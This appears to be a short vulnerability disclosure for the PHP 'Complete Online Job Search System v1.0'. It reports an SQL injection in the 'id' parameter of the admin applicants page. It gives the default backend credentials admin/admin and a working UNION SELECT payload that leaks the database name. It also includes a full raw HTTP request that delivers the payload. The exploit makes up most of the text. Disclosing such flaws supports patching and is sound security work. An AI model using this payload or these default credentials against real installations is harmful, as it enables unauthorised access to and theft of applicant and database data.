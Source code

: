 # Complete Online Job Search System v1.0 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/applicants/index.php?view=view&id=

Vulnerability location: /eris/admin/applicants/index.php?view=view&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/applicants/index.php?view=view&id=-2%27%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ // Leak place ---> id

```sql
GET /eris/admin/applicants/index.php?view=view&id=-2%27%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849174-963d07c5-d498-446e-b8e5-b834c6c1c4f4.png)


![image](https://user-images.githubusercontent.com/54017627/170849170-e85f655d-3180-4a60-abac-0f26005b0093.png)
